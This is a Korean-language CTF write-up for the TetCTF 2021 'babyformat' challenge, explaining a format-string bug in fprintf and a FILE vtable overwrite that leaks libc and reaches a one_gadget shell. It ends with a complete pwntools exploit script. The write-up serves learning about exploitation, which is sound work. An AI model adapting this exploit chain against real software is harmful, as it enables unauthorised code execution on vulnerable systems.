 ```yaml
---
layout: post
title: TetCTF 2021 babyformat writeup
categories: ctf-write-up
tags: [ctf]
---
```



## babyformat

삽질을 굉장히 많이한 문제이다. 



취약점은 여기서 발생한다.

```c
int __fastcall sub_40091C(FILE *a1, const char *a2)
{
  printf("Your data: %s\n", a2);
  return fprintf(a1, a2);
}
```

하지만 `fprintf`를 이용하기 때문에 output을 볼 수 없다. 

근데 위의 printf 문을 보면 a2를 %s로 출력을 해주는데 저 주소는 bss 영역이라서 leak을 할 수 없다.



```c
int __fastcall sub_4009CB(__int64 a1)
{
  FILE *stream; // [rsp+18h] [rbp-28h]

  printf("Data you wan't to log into /dev/null: ");
  stream = fopen("/dev/null", "w+");
  if ( !stream )
  {
    puts("Error~");
    exit(0);
  }
  readline(a1, 512);
  fsb((__int64)stream, a1);
  return fclose(stream);
}
```

위 코드를 보면 fsb가 발생한 이후 `fclose`를 호출한다. 그리고 이때 stream은 스택 내에 저장되어 있다.

따라서 스택을 가리키는 포인터를 이용하여 stream이 저장되어 있는 스택을 가리키게 하고

이 stream을 가리키는 스택에 접근하여 stream 내의 vtable을 가리키게 하고 stream의 vtable에 접근하여

원하는 주소에 접근 하도록 할 수 있다. (트리플 스테이지..?)

롸업쓰면서 다시 생각해보니 더 쉽게 풀 수 있는 방법도 있는거 같은데 일단 푼 대로 써야겠다..



pie가 안걸려있고 input은 bss 영역에 들어가니 `fake vtable`도 원하는대로 만들 수 있다.

이제 어떤 주소로 이동할 지 결정을 해야한다.  나는 **0x4009cb** 주소로 이동했다.



fprintf를 호출하기 이전에, printf로 a2를 출력해주는 루틴이 존재하는데,

0x4009cb부터 실행하면 a2는 bss 영역이 아니게 되어서  leak이 가능한 구조가 된다.



이제 다시 main 함수로 흐름을 변경하면 bss에 입력을 받을 것이고, bss에 fake vtable을 만들고 one_gadget을 실행할 수 있다.

이 과정 이전에 ret를 one_gadget으로 변경하는 코드를 짰으나 모든 one_gadget이 되지 않아서 절망햇엇다,,





요약 (Summary)

1. Using fsb, modify the vtable (rip should be **0x4009cb**)
   - (1) Create a pointer to point to the stack address where the stream is stored.
   - (2) Modify the 1 byte of the stream address to point to vtable.
2.  Using fsb, modify the return address of the stack to **main**
3.  Using fsb, modify the stream address to `fake_vtable`



```python
from pwn import *

e = ELF('./babyformat')
libc = e.libc

while True:
    p = process('./babyformat', env={'LD_PRELOAD':'./libc-2.23.so'})
    #p = remote("192.46.228.70", 31337)

    payload = ''
    payload += '%c' * 24
    payload += '%{}c'.format(0x28 - 24)
    payload += '%hhn'
    payload += '%c' * 1
    payload += '%{}c'.format(0xe8 - 0x29)
    payload += '%hhn'
    payload += '%{}c'.format(0x6020a0 - 0xe8)
    payload += '%24$ln'
    payload += 'A' * (0x78 - len(payload))
    payload += p64(0x4009CB)
    p.sendlineafter(': ', payload)

    payload = ''
    payload += '%c' * 9
    payload += '%{}c'.format(0x48 - 9)
    payload += '%hhn'
    payload += '%{}c'.format(0xcb - 0x48)
    payload += '%19$hhn'
    payload += 'A' * (0x68 - len(payload))

    try:
        p.sendlineafter("Data you wan't to log into /dev/null: ", payload)
    except:
        p.close()
        continue
    
    leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
    libc_base = leak - 0x3c5540
    one_gadget = libc_base + 0xf0364

    payload = ''
    payload += '%c' * 9
    payload += '%{}c'.format(0x100 - 9)
    payload += '%hhn'
    payload += '%c' * 6
    payload += '%{}c'.format(0x400af4 - 0x106)
    payload += '%n'
    p.sendlineafter("Data you wan't to log into /dev/null: ", payload)

    payload = ''
    payload += '%{}c'.format(0x602070)
    payload += '%21$n'
    payload += 'A' * (8 - len(payload) % 8)
    payload += p64(0) * 17
    payload += p64(0x602070)
    payload += p64(0) * 9
    payload += p64(0x602170)
    payload += p64(0) * 6
    payload += p64(one_gadget)
    p.sendlineafter("Data you wan't to log into /dev/null: ", payload)
    break

p.interactive()
```